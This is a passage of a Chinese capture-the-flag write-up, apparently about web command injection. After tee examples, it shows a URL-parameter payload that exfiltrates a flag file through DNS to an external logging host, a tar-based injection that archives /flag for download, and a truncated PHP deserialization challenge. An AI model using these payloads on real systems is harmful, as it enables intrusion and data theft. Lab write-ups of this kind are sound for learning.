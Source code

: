 3. 实例9：使用tee命令追加内容到文件
    ```
    echo "example output" | tee -a file.txt
    ```
    使用echo命令生成了一些输出，然后使用tee -a命令将这些输出追加到file.txt文件的末尾。

4. 实例10：使用tee命令忽略中断
    ```
    echo "example output" | tee -i file.txt
    ```
    使用echo命令生成了一些输出，然后使用tee -i命令将这些输出写入到file.txt文件中。如果在执行过程中收到中断信号，tee -i命令会忽略它，而不是终止执行。
#### DNS请求
```
?zypc=curl%20`tac%20/flag`.1dq0gl.ceye.io

//格式 curl `命令`.域名
```
`flag{ccadf4e3-b05f-42f7-a815-f4f0db8026e9}`   
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241128200741.png)   
#### 压缩
```
tar cvf flag.tar flag.php #tar压缩

tar zcvf flag.tar.gz flag.php  #tar解压

zip flag.zip flag.php  #zip压缩

unzip flag.zip  #zip解压
```

```
?zypc=tar%20cvf%20flag.tar%20/flag
//访问 http://222.24.6.121:32815/flag.tar
```
### die 反序列化
源码如下：  
```php
class GGbond{
    public $candy;

    public function __call($func,$arg){
        $func($arg);
    }

    public function __toString(){
        return $this->candy->str;
    }
}

class unser{
    public $obj;
    public $auth;

    public function __construct($obj,$name){
        $this->obj = $obj;
        $this->obj->auth = $name;
    }

    public function __destruct(){
        $this->obj->Welcome();
    }
}

class ZYPC{
```